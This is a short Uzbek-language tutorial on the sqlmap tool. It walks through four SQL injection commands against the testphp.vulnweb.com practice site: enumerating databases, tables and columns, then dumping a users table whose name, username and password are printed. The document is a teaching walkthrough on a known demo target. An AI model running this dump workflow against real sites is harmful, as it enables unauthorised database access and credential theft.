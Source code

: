 **SQLMAP**   
```
sudo apt update && sudo apt install sqlmap
```   
1. Veb-saytda SQL Injection bor-yo'qligini aniqlash uchun (Barcha ma'lumotlar bazasini chiqarish):   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --batch --dbs
```
available databases [2]:  
**acuart**  
information_schema  


2. Muayyan bazadagi jadvallarni aniqlash:   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```
Database: acuart  
(8 tables)   
.......  
users  

3. Muayyan jadvaldagi ustunlarni chiqarish:
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```
name  
pass  
uname  

4. Ma'lumotlarni chiqarish (dump):
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C name,uname,pass --dump
```  
| name         | uname | pass | 
| John M Smith | test  | test |
